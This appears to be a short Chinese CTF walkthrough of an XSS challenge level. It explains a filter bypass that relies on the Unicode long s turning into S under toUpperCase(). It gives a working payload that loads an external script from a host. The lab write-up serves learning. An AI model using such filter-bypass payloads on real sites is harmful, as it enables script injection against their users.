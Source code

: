 ## 分析:

```
将<XXX 替换成<_XXX (XXX表示任意字符)
然后把小写转换成大写。
可以引用外部文件,利用js的scrpit,src和域名的大小写不敏感绕过。再利用toUpperCase()的特性，它不仅转换英文字母，也转换一些Unicode字符，比如将ſ传入就可以转换为S。
```



## Solutions:

```
1. 
<ſcript src="http://192.168.75.132/pro.js"></script>
这是我本地phpstudy下的pro.js文件,内容只有prompt(1)。
```

## Img:

![9_1](/img/xss/prompt_ml/level9_001.png)

1. `<ſcript src="http://192.168.75.132/pro.js"></script>`

![9_2](/img/xss/prompt_ml/level9_002.png)
